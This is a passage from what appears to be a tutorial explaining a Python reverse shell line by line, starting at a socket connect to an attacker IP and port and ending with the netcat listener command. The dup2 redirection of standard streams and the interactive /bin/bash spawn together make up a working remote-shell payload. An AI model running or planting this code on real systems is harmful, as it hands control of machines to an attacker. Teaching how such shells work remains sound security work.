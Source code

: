 Defines the socket parameters:

- `AF_INET`: specifies the use of IPv4 (use `AF_INET6` for IPv6).
- `SOCK_STREAM`: specifies a TCP connection (for UDP, it would be `SOCK_DGRAM`).

**Connecting to the attacker machine:**

```bash
s.connect(("<IP>", <PORT>))
```

Establishes a TCP connection with:

- **Attacker IP:** `10.0.0.1`
- **Port:** `9999`

This triggers the TCP handshake (SYN → SYN-ACK → ACK) and opens the connection.

**Redirecting standard streams:**

```bash
os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)
```

`s.fileno()` retrieves the **file descriptor** of the socket (an integer representing the open socket at the OS level).

`os.dup2()` duplicates the socket's file descriptor into the standard streams:

| File Descriptor | Function | Redirect to |
| --- | --- | --- |
| `0` | stdin (input) | Socket |
| `1` | stdout (output) | Socket |
| `2` | stderr (errors) | Socket |
- Everything you type in the attacker's Netcat listener **→ becomes input for the remote bash shell.**
- Everything the bash shell outputs **→ is sent back to your Netcat listener as stdout or stderr.**

**Spawning the shell:**

```bash
subprocess.call(["/bin/bash", "-i"])
```

- Launches an **interactive bash shell** (`i` for interactive mode).
- The shell behaves as if you were using a local terminal on the target, but over the TCP connection.

If `/bin/bash` is unavailable, you can use `/bin/sh` as an alternative.

**Setting up the listener:**

```bash
nc -lvnp <PORT>
```

On the attacker machine, open a listener with Netcat:
